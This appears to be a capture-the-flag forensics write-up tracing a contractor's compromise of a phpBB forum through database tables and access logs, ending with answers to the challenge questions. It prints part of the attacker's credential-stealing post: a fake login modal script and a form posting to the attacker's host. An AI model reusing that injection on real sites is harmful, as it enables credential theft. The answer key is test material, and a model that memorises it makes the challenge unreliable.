



# Bumblebee

## Speech
```
An external contractor has accessed the internal forum here at Forela via the Guest Wi-Fi, and they appear to have stolen credentials for the administrative user! We have attached some logs from the forum and a full database dump in sqlite3 format to help you in your investigation.
```

## Analysis

We have logs and sqlite, I'll begin with sqlite maybe I can find username/login log/ip info on the attacker before diving in the logs.

### phpbb.sqlite3
1. I open the file with sqlitebrowser, then I go in *Browse Data" and i'll begin with the table phpbb_users
    - Here we go :
    
    - We have 6 interesting users (the first one is at the top so we don't see it on this screenshot and is admin), for the 5 others the two most interesting are *apoole* and apoole1*, one of those is our attacker because they both have *contractor.net* for email domain, so it's they are our contractor :)
    - The ip is also interesting *10.10.0.78*
    - When we look at the *user_lastvisit* and *user_lastpost_time* we see that *apoole* has 0 as last visit so probably never visit (I think phpbb put 0 for never visited), so the attacker is probably *apoole1*
2. Because *Apoole1* is our principal suspect and he post something let's take a look at his post, go in the table *phpbb_posts*
    - The *post_id* 9 is done by *apoole1* (same IP)
    - Here is the post of the attacker : (I get rid of most of the code, I keep the script and the form, to see where the data are sent), this script is a stealer, this post send data to the update.php of the attacker (the ip of the attacker)
    ```
    <div>
    <script type="text/javascript">
        function sethidden() {
        const d = new Date();
        d.setTime(d.getTime() + (24 * 60 * 60 * 1000));
        let expires = "expires=" + d.toUTCString();
        document.cookie = "phpbb_token=1;" + expires + ";";
        var modal = document.getElementById('zbzbz1234');
        modal.classList.add("hidden");
        }
        document.addEventListener("DOMContentLoaded", function(event) {
        let cookieexists = false;
        let name = "phpbb_token=";
        let cookies = decodeURIComponent(document.cookie);
        let ca = cookies.split(';');
        for (let i = 0; i < ca.length; i++) {
            let c = ca[i];
            while (c.charAt(0) == ' ') {
            c = c.substring(1);
            }
            if (c.indexOf(name) == 0) {
            cookieexists = true;
            }
        }
        if (cookieexists) {
            return;
        }
        var modal = document.getElementById('zbzbz1234');
        modal.classList.remove("hidden");
        });
    </script>
    <form action="http://10.10.0.78/update.php" method="post" id="login" data-focus="username" target="hiddenframe">
    ```
3. In phpbb_config we can see the *auth_method* is *db_or_ldap* so users can connect via LDAP, still in the *phpbb_config** we have LDAP credentials!
4. In the *phpbb_log* table
    - we have interesting logs :
    
    - The attacker (his ip) added the account *apoole* to the administratos group and he login as admin (at 26/04/2023 10:53:12, the time in the db is an epoch)
    - On the last line we see he made a backup of the DB
5. In the *phpbb_sessions* table
   - We have the session of the administrator
   
6. Looks like they are nothing more in this DB

### Access.log
1. Not a lot to get in this file, a lot of noise, I filtered some little things but we don't learn much, some of my filter was : `cat -n access.log | grep 10.10.0.78 | grep POST` (To see what the attacker send to the website), `cat -n access.log | grep 10.10.0.78 | grep login` (to see the login)
2. At the end we can see the download of the DB backup (line 695) :
    - `10.10.0.78 - - [26/Apr/2023:12:01:38 +0100] "GET /store/backup_1682506471_dcsr71p7fyijoyq8.sql.gz HTTP/1.1" 200 34707 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0"`

## Questions
1. What was the username of the external contractor?
    - apoole1 (cf. Analysis>phpbb.sqlite3>1)
2. What IP address did the contractor use to create their account?
    - 10.10.0.78 (cf. Analysis>phpbb.sqlite3>1)
3. What is the post_id of the malicious post that the contractor made?
    - 9 (cf. Analysis>phpbb.sqlite3>2)
4. What is the full URI that the credential stealer sends its data to?
    - http://10.10.0.78/update.php (cf. Analysis>phpbb.sqlite3>2)
5. When did the contractor log into the forum as the administrator? (UTC)
    - 26/04/2023 10:53:12 (cf. Analysis>phpbb.sqlite3>4)
6. In the forum there are plaintext credentials for the LDAP connection, what is the password?
    - Passw0rd1 (cf. Analysis>phpbb.sqlite3>3)
7. What is the user agent of the Administrator user?
    - Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36 (cf. Analysis>phpbb.sqlite3>5)
8. What time did the contractor add themselves to the Administrator group? (UTC)
    - 26/04/2023 10:53:51 (cf. Analysis>phpbb.sqlite3>4)
9. What time did the contractor download the database backup? (UTC)
    - 26/04/2023 11:01:38 (cf. Analysis>access.log>2)
10. What was the size in bytes of the database backup as stated by access.log?
    - 34707 (cf. Analysis>access.log>2)